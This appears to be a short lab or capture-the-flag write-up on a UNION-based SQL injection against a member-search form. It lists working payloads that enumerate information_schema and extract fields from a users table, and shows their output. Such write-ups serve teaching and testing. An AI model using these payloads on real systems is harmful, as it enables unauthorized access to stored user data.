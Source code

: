 

### Search members by ID

By entering an ID number, we can attempt to retrieve an initial table!

```ID: 1 
First name: one
Surname : me```

We can start by sending a SQL command:

``SELECT * FROM users``

``You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'SELECT * FROM users' at line 1``

We want to be able to use our own SELECT command and ignore the first one that gives an error. We can use the UNION method. The UNION keyword allows you to execute one or more additional SELECT queries and append the results to the original query.

We don't have the names of the columns, but thanks to ``information_schema``, which is default the database informations,  we can retrieve all the necessary data.

``1 UNION SELECT column_name, table_name FROM information_schema.columns``

This gives us the corresponding tables and columns:

```ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: user_id
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: first_name
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: last_name
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: town
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: country
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: planet
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: Commentaire
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: countersign
Surname: users```

Therefore, we can retrieve the data from the users table with the following command:

``1 UNION SELECT first_name, country FROM users``
